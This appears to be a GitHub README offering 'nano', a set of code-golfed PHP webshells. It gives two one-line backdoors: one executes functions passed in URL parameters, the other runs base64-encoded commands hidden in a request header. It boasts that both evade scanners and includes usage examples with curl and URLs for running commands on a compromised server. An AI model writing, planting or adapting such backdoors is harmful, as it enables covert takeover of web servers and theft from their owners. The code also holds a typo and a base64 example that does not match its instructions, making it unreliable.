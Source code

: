 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?=$_GET[p]==_&&$_GET[f]($GET_[c]);
```
#### Features
- 35 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
